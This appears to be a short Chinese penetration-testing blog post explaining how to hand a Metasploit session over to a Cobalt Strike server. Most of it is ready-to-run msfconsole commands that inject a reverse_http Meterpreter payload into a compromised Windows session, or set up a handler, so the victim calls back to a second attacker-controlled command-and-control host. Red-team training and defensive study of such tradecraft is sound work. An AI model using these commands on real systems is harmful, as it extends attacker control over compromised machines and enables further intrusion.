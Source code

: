 ```yaml
---
title: "MSF 派生 Cobalt Strike 会话"
date: 2018-07-18T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cobalt strike', 'metasploit']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


利用 Metasploit 派生 Cobalt Strike 会话

<!--more-->

信息.

```
metasploit IP:192.168.1.100 PORT:4444
Cobalt Strike IP:192.168.1.101 PORT:5555
```

## 有 meterpreter 会话

利用 `payload_inject` 模块注入新的 payload.

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.101
set lport 5555
set session 1
set disablepayloadhandler true
run
```

## 无 meterpreter 会话

在监听时将 `LHOST` 和 `LPORT` 改成 Cobalt Strike 对应的 IP 和 PORT.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.101
set lport 5555
set disablepayloadhandler true 
run
```